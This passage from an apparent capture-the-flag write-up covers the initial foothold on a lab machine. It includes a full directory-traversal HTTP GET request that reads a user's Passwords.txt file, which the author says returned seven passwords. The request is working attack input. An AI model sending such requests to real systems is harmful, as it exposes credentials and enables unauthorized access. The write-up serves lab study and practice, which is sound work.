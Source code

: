 {% hint style="info" %}
_Bypassing the login to this portal is possible, but I'm pretty sure it is a huge rabbit hole that sucked me in for quite awhile._
{% endhint %}

## Initial Foothold

Can use GET requests and directory traversal to access files on the system.  Blog from Rapid7 shows good way to test for LFI and directory traversal for Windows. since we know the location of the `Passwords.txt` file, use this to exfiltrate

{% embed url="https://blog.rapid7.com/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/" %}

I used Burp suite's repeater tool to craft my requests and test for this vulnerability on this machine.

![Checking for LFI through directory traversal](../../.gitbook/assets/screenshot_2020-06-20_20-53-48.png)

The machine was indeed vulnerable, and I used the information from the message `Nadine` left for `Nathan` to form my directory traversal GET request.  The server returned a list of seven passwords for me try out.

```text
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063; lang_type=0x0804%24zh-cn
Upgrade-Insecure-Requests: 1
DNT: 1
```
